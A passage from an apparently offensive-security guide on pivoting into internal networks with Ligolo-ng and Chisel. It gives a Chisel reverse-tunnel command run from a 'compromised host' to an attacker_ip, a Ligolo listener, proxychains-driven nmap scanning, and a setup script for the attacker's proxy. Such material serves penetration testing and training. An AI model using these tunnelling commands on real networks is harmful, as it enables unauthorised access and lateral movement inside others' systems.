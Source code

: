 ```
# In Ligolo-ng proxy console
ligolo-ng (192.168.1.5) » listener_add --addr 0.0.0.0:8080 --to 10.10.10.50:80 --name web_server
```

#### Chisel

```bash
# On attacker machine
./chisel server -p 8080 --reverse

# On compromised host
./chisel client attacker_ip:8080 R:8080:10.10.10.50:80
```

### When to Use Ligolo-ng vs. Chisel

- **Use Ligolo-ng when**:
  - You need to access entire network segments
  - You need to run tools that require direct network access
  - You need to pivot through multiple networks
  - Performance is a priority
  - You need to support non-TCP protocols

- **Use Chisel when**:
  - You can't set up TUN/TAP interfaces
  - You only need specific port forwarding
  - Simple setup is a priority
  - Target environments have limited capabilities

## Advanced Techniques

### Using Ligolo-ng with Proxy Chains

```bash
# Configure /etc/proxychains.conf
# Add the following line:
socks5 127.0.0.1 1080

# Use proxychains with tools
proxychains nmap -sT -Pn 172.16.5.60
```

### Automating Ligolo-ng Setup

Create a setup script for your attack machine:

```bash
#!/bin/bash
# ligolo-setup.sh

# Create TUN interface
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# Start proxy in background
sudo ./proxy -selfcert -laddr 0.0.0.0:11601 &

# Wait for interface to be ready
sleep 2

echo "Ligolo-ng proxy is running. Interface is set up."
echo "Ready to receive agent connections."
```
